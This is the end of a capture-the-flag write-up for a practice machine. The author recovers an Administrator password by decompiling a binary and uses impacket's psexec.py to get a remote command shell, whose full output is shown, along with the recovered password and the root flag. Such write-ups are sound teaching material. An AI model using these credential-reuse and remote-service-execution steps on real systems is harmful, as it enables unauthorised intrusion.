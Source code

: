 We then decompile the binary and add our password to the file with a ldap.conf and we run it and spits out our password. 
`XtH4nkS4Pl4y1nGX`

We can now login to the box as Administrator with that password and grap our root flag.

We use psexec.py from impacket and get a shell as Administrator.
```bash
ython3 psexec.py Administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
Impacket v0.9.20-dev - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file sgwNoHuY.exe
[*] Opening SVCManager on 10.10.10.178.....
[*] Creating service Cgkb on 10.10.10.178.....
[*] Starting service Cgkb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd C:\Users\Administrator\Desktop
 
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 2C6F-6A14

 Directory of C:\Users\Administrator\Desktop

01/26/2020  08:20 AM    <DIR>          .
01/26/2020  08:20 AM    <DIR>          ..
08/05/2019  11:27 PM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  26,811,396,096 bytes free

C:\Users\Administrator\Desktop>type root.txt
6594c2eb084bc0f08a42f0b94b878c41
```
Thanks for reading hope you enjoyed.




